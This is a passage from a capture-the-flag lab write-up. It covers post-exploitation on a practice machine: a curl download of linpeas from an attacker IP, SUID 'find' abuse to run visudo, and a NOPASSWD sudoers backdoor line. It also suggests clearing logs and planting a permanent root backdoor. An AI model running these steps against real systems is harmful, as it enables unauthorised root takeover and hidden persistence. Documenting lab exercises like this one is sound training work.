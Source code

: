 We can view the .secret file in stoner's home directory:

.secret:You made it till here, well done.

![](images/2020-08-25-15-06-05.png)

We can now download linpeas using curl, and SimpleHTTPServer

    curl http://10.8.82.167/linpeas.sh --output linpeas.sh
    chmod a+x linpeas.sh
    ./linpeas.sh > lin.txt

We can see that /find SUID bit is set, so we can execute code as root. We can get permanent privesc through manipulating the sudoers file, using the command "visudo":

    stoner@Vulnerable:~$ touch me
    stoner@Vulnerable:~$ find me -exec "visudo" \;

Then under root, I added:

stoner   ALL=(ALL:ALL) NOPASSWD:ALL

and overwrite the /etc/sudoers file (instead of the .tmp one we're in right now).

Then type `Q` (capitalised) to quit visudo, and finally sudo su to get a root shell:

![](images/2020-08-25-15-15-10.png)

Now we can read the /root/root.txt file:

![](images/2020-08-25-15-15-40.png)

root.txt:It wasn't that hard, was it?

Complete!

Next steps would be to remove sudo privs for stoner, clear logs for the sudoers, and create a permanent backdoor for root.

MISTAKES I MADE:

Didn't enumerate thoroughly enough.
- Should do a thorough recursive directory scan.
- USE DIRSEARCH to enumerate directories.
    - Dirsearch was how I found the _test.
- Needed to do a more thorough nmap scan using -Pn (No Ping).
    - This option skips the Nmap discovery stage altogether. Normally, Nmap uses this stage to determine active machines for heavier scanning. By default, Nmap only performs heavy probing such as port scans, version detection, or OS detection against hosts that are found to be up. Disabling host discovery with -Pn causes Nmap to attempt the requested scanning functions against every target IP address specified.[...]Proper host discovery is skipped as with the list scan, but instead of stopping and printing the target list, Nmap continues to perform requested functions as if each target IP is active. To skip ping scan and port scan, while still allowing NSE to run, use the two options -Pn -sn together.